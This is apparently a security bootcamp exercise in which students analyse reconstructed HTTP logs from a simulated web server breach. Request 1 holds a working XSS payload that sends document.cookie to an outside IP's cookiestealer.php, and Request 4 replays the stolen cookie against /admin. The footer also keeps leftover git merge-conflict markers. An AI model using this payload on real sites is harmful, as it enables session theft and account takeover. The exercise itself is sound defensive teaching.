 ## Activity File: HTTP Requests and Responses

In this activity, you will play the role of a web app security engineer.

- There was a recent breach in one of your company's HTTP servers. Before the server went down, a suspicious IP address sent it a rapid sequence of requests and responses.
- The administrators of the web server attempted to recover and reconstruct much of the client-server HTTP request and response traffic.
- You are tasked with investigating the remaining HTTP logs in order to figure out what happened during the attack on the web server.

Use the [HTTP Reference Sheet](https://docs.google.com/document/d/114kp6IsNklMhiz852qTxUlSsaJwwFfbUxDWZmtAv8S8/edit?usp=sharing) while working on this activity. 

:books: Use the following URL to learn about how web-based cross-site scripting attacks are used to steal cookies: [Geeks for Geeks: Cookie Tracking and Stealing Using Cross-Site Scripting Tracking](https://www.geeksforgeeks.org/cookie-tracking-stealing-using-cross-site-scripting/). 

- The information will help you answer the upcoming questions. Search the internet for "cross-site scripting cookie stealing" if you still need more resources.

### Instructions

The partially reconstructed HTTP requests and responses below were, at some point, exchanged with the suspicious IP address. A lot of requests and responses are missing, so we can only partially understand the attack. 

Review the partially reconstructed HTTP requests and responses. Answer the questions to figure out what happened during the breach on your company's web server.

1. The following partial response was sent to the suspicious IP address. The request was completely lost and unrecoverable.

   **HTTP Response 1**

     ```HTTP
     HTTP/1.1 200 OK
     Date: Tue, 25 Sep 2018 21:21:20 GMT
     Server: Apache/2.2.21 (Unix mod_ssl/2.2.21 OpenSSL/1.0.0k DAV/2 PHP/5.4.3)
     WWW-Authenticate: Cookie realm="fakesite"
     Allow: OPTIONS, GET, POST, HEAD, PUT
     ```

   - **Question:** What kind of request was used here that would cause an HTTP server to tell the client all of the HTTP request methods it will respond to?

   - **Analysis:** Do you think this HTTP request method can be used by an attacker to gather information about an HTTP server? Why or why not?

2. The system admins reported some corrupted HTTP traffic that occurred before the following recovered response:

   **HTTP Response 2**

     ```HTTP
     HTTP/1.1 401 Unauthorized
     WWW-Authenticate: Cookie realm="fakesite"
             form-action="/login"
             cookie-name=AUTH-COOKIE
     Content-Type: text/html

     <title>Unauthorized</title>
     <form action="/login" method=POST>
     <input type=hidden name=referer value="/fakesite/">
     <p><label>Username: <input name=user></label>
     <p><label>Password: <input name=pwd type=password></label>
     <p><button type=submit>Sign in</button>
     <p><a href="/register">Register for an account</a>
     </form>
     ```

   - **Questions:** 
      - What status code was returned in this response?
      - According to the response body, what kind of method was used to generate this HTTP response?
     - What sort of information was input to this HTTP request?

   - **Analysis:** Based on the information gathered from the status code and response body, what did the attacker try to do? Were they successful? 

3. The following HTTP request and response were also recovered:

   **HTTP Request 1**

     ```HTTP
     PUT /XSS.html HTTP/1.1
     User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
     Host: www.fakesite.com/blog

     <script type="text/javascript">
     document.location='http://133.7.13.37/cookiestealer.php?c='+document.cookie;
     </script>
     ```

   **HTTP Response 3**

     ```HTTP
     HTTP/1.1 201 Created
     Date: Mon, 05 May 2014 12:28:53 GMT
     Server: Apache/2.2.14 (Win32)
     Content-type: text/html
     Content-length: 30
     Connection: Closed
     ```

   - **Questions:** 
      - What type of method was used in the request?
      - What file name was uploaded to the site, according to the request body?

   - **Analysis:** 
      - Based on the request method and request body, what do you think happened here? 
      - How did the server respond?

4. The next partial request and header was received by our HTTP server. The data after this log was completely lost:

   **HTTP Request 4**

     ```HTTP
     GET https://www.fakesite.com/admin HTTP/1.1
     Cookie: $Version="1"; AUTH-COOKIE="sdf354s5c1s8e1s"; $Path="/admin"
     ```

   - **Question:** Look back at the previous response (HTTP Response 3). What does the header indicate in this GET request?

   - **Analysis:** Is there anything interesting about the URL requested?

---
<<<<<<< Updated upstream
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved. 
=======
© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 
>>>>>>> Stashed changes
